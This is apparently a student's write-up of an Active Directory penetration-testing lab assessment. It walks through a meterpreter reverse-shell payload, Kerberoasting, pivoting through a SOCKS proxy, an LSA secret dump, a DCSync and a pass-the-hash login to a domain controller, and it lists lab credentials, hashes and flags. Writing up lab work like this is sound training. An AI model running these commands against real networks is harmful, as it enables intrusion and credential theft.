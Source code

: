 # AD Enum & Attacks - Assessment 1

## Given Info

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

## Steps

### Finding the Admin's Desktop Flag

- nmap scan just to check what ports are open on the host
- Look around the web server through the web shell in order t o find the admin desktop directory.

### Elevating Access to the Reverse Shell from the Web Shell

        
- Use msfconsole to create a custom payload
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.9 lport=4444 -f exe > shell.exe`
	- Using netcat will show the connection, but you can't interact with it, so we use metasploit for a better shell
	- use exploit/multi/handler in order to listen in
	- upload the exploit to the web shell, and run it

### Getting a User's Hash

        
- We don't have a password to the local host, so we have to get a password hash and crack it
- Transfer PowerView.ps1 to the target machine and import it into powershell
- get user svn for the sql user using the following:
	- `Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat | out-File .\\\\hash.txt`
- copy the hash and use hashcat to break it

### Getting into MS01

- Running `ipconfig` shows you a second network adapter, meaning we’ll need to pivot to the internal network        
- Go to the meterpreter shell, and run the following    
	- `run autoroute -s 172.16.6.0/24`
- Then run a tcp portscan on the internal network to find hosts. Focus on 139,445 (SMB)as they are common windows ports

```bash
bg
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.6.0/24
set PORTS 139,445
set threads 50
run
```

- setup SOCKS proxy and run it `use auxilliary/server/socks_proxy`
- update `/etc/proxychains.conf` to include the socks5 proxy for the local machine
- Use proxychains to attack the internal network
- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7` where we use the creds we got from the kerberoasting hash
- Authenticate to the smb service
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7`
- Use CME again to find the file called flag.txt
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7 -x "type C:\\users\\administrator\\desktop\\flag.txt"`

### Dumping Passwords

- `proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa`

### Attack Vectors

        
- Use powerview to evaluate attack vectors

```powershell
PS C:\\> Import-Module .\\PowerView.ps1

Import-Module .\\PowerView.ps1
PS C:\\> $sid = Convert-NameToSid tpetty
$sid = Convert-NameToSid tpetty
PS C:\\> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-All
```

### Domain Takeover

        
- DCSync Attack:

```powershell
$ proxychains secretsdump.py INLANEFREIGHT/tpetty@172.16.6.3 -just-dc-user administrator

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49667-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a76102a5617bffb1ea84ba0052767992823fd414697e81151f7de21bb41b1857
Administrator:aes128-cts-hmac-sha1-96:69e27df2550c5c270eca1d8ce5c46230
Administrator:des-cbc-md5:c2d9c892f2e6f2dc
[*] Cleaning up... 
```

- Use `wmiexec.py` as `administrator` and pass the hash `aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0` to be able to connect to DC01

```powershell
$ proxychains wmiexec.py administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49774-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\\>hostname
DC01

C:\\>type c:\\users\\administrator\\desktop\\flag.txt
r3plicat1on_m@st3r!
```

## Creds

        
1. user: svc_sql, pass: lucky7

## Flags

1. `JusT_g3tt1ng_st@rt3d!`
2. `spn$_r0ast1ng_on_@n_0p3n_f1re`
3. `tpetty:Sup3rS3cur3D0m@inU2eR`
4. `r3plicat1on_m@st3r!`

# AD Enum & Attacks - Assessment 2**

## Given

Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.Apply what you learned in this module to compromise the domain and answer the questions below to complete part II of the skills assessment.

1. `SSH to with user "htb-student" and password "HTB_@cademy_stdnt!"`

## Steps

1. ssh into the machine
2. `ip a` to see if the machine is connected to any other networks: `ens224` is connected to an internal network `172.16.7.240/23`
3. Try using responder to harvest hashes

## Creds

## Flags
